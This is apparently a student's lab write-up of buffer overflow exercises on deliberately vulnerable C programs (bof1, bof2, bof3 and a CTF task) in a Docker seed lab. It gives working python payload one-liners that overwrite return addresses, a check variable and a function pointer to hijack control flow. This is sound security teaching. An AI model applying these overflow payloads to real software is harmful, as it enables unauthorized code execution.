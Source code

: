 """
@author: Nguyen Duc Tri 
@id: 22110082
"""
# BUFFER OVERFLOW ATTACK 
# BOF1.c
## I. Prepare for the lab environment

The Dockerfile is used to build a Docker image with all the required packages for Hands-On Assembly & Security labs.

### How to use:

1. Open Docker Desktop on your computer (host machine).

2. Open Terminal

   ```bash
   git clone https://github.com/quang-ute/myprojects
   ```
   and

   ```bash
   cd myprojects
   ```

4. Build the image `img4lab` that comprises all the required packages for labs by running the following command:

   ```bash
   docker build -t img4lab .
3. Run docker container from previously built image
   ```bash
   docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
`Seclabs` is created inside student's home folder. <br>

4. On seed machine:
   
   ```bash
   cd seclabs
   ```
   then make a direction for a new file, named `bof`:

   ```bash
   mkdir bof
   ```
   and finally 

   ```bash
   cd bof
   ```


## II. Interpret the attack: 

![image](https://github.com/user-attachments/assets/6bb8d95d-f457-46a7-a910-be766ac038a8)

`For exploiting this, just filling up the buffer 200 bytes, EBP, and placing the memory address of secretFunc() into EIP. 
Instead of returning to its original position to continue the normal program flow, the EIP will now point to the secretFunc() and execute it.`

## III. Conducting the attack

1. Access to seclabs and bof
   
![image](https://github.com/user-attachments/assets/f2f34d52-070e-44f2-8685-b0c9bf3aa9bd)

2. Go to VSCode by
   
![image](https://github.com/user-attachments/assets/92550cbb-4fba-472e-ad5c-ca4d5b3383c2)

3. In VSCode terminal, run docker container from previously built image and change directory -> seclabs -> bof 

4. On seed machine

![image](https://github.com/user-attachments/assets/e5366856-381f-4238-a1ad-0be0ec61315c)

> **Note:** After typing the command, you might see a warning about the declaration of the function `get`. This is due to `get` was removed in C11. Nevermind to this warning, it will not affect the attack process. 

5. Load bof1.out in gdb

![image](https://github.com/user-attachments/assets/a3081e17-82db-438b-a825-d112f13ab5f3)

6. Once you load out bof1.out in gdb, use the disassemble command to display the assembly code for a <b>secretFunc()</b> memory region

![image](https://github.com/user-attachments/assets/c5ac8bac-3365-459e-b8db-70af5400a134)

7. The secretFunc() memory region is `0x0804846b`. Now, we must exit the gdb by typing `q`

8. Input 204 'a' characters followed by the address of secretFunc()

![image](https://github.com/user-attachments/assets/8af57690-4b4d-4ae1-bfa1-9126b8ac024b)

9. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out

![image](https://github.com/user-attachments/assets/c75f57d2-fa2b-432a-b67b-7c771c1f6d6b)

# BOF2.c 
## I. Interpret the attack:

![image](https://github.com/user-attachments/assets/f6dbdf24-0a77-473c-ba52-81caa5b3aded)

`Since the buffer buf is only 40 bytes, but the program reads up to 45 bytes, if we enters more than 40 characters, the excess characters will overwrite the memory occupied by check.`

## II. Conducting the attack: 

Every initialized step has to be done like the attack on `bof1.c` file.

If you want to print out this statement `printf("\nYou are on the right way!\n");`
```bash
echo $(python -c "print('a'*40 + '\x01\x02\x03\x02')") | ./bof2.out
```

![image](https://github.com/user-attachments/assets/1fb903d5-94cd-47e6-b63c-4d464a09685e)

Else print out this statement `printf("Yeah! You win!\n");`
```bash
echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
```

![image](https://github.com/user-attachments/assets/4a925412-a9ee-40bf-9ab1-613e2c176069)

# BOF3.c 
## I. Interpret the attack:

![image](https://github.com/user-attachments/assets/3fd5198e-249c-439b-959e-31bf79ce73ba)

` The goal is to overwrite the func() pointer with the address of the shell() so that, when func() is called, it executes shell() instead of sup().`

## II. Conducting the attack: 

Every initialized step has to be done like the attack on `bof1.c` file.

In order not to load into `gdb bof3.out` and `disas shell` function to get a memory region of shell(), we can
```bash
objdump -d bof3.out | grep shell
```

So that the address of shell() will be displayed below:

![image](https://github.com/user-attachments/assets/5347273d-cc2d-49f7-a991-8bf9608349ae)

The attack: 
```bash
echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
```
![image](https://github.com/user-attachments/assets/1521539c-ebe3-4fb7-9973-03c0738778c8)

# CTF.c
## I. Interpret the attack: 

![image](https://github.com/user-attachments/assets/b991c129-95b3-4019-bb24-e836b75fad28)

The goal of the attack is to force the program to execute `myfunc()` with the correct values for `p` `(0x04081211)` and `q` `(0x44644262)`.

By exploiting buffer overflows to overwrite return addresses, we can access into the `myfunc()`. 

## II. Conducting the attack: 

1. At first, we need to know the address of `myfunc()`:
```bash
objdump -d ctf.out | grep myfunc
```

![image](https://github.com/user-attachments/assets/50a203d4-80dd-470b-8a96-a06939e05741)

2. `disas myfunc` to have a brief analysis:

![image](https://github.com/user-attachments/assets/1cc99368-6cbf-46a6-848a-f4ca1ee3d67e)

The `myfunc` absolutely does not exist in stack frame, so do these 2 integer variable `p` and `q`. 

Thus, the idea is to determine exactly the location of `p` and `q` in stack frame. And I will assign directly the value of them before executing the program. 

3. Determine the ebp's location.

The first thing that we need to know is where the ebp is located after finishing the execution of the `vuln()`. 

![image](https://github.com/user-attachments/assets/86c4ea05-39ad-4a30-85cd-02b297925f2d)


> **Note:** Let's have a look at leave and ret. <br>
> (1) is a location of `esp` before the `vuln()` executed. <br>
> (2) After the `vuln()` has been done executing, the `esp` will move to the place where `ebp` is standing. (move ebp, esp). <br>
> (3) The value of `ebp` in stack frame, will be copied to (the purple line), and disappear later on. `esp`, therefore, it will move down as show in the figure. <br>
> (4) We will meet the `ret` (the program now navigates to `myfunc()`, which is `0x0804851b). The `esp` location is shown in the figure. 

The next thing is the location of `esp` when loading into `myfunc()` 

![image](https://github.com/user-attachments/assets/c870260a-85c6-4e37-8667-565d314ae041)

The location of of `p` and `q` is: ` 100 + 4 (blank) + \x1b\x85\x04\x08 (ret) + 4 (s) + \x11\x12\x08\x04 + \x62\x42\x64\x44 `  

4. Conducting an attack:
```bash
echo $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + 'b'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")
```







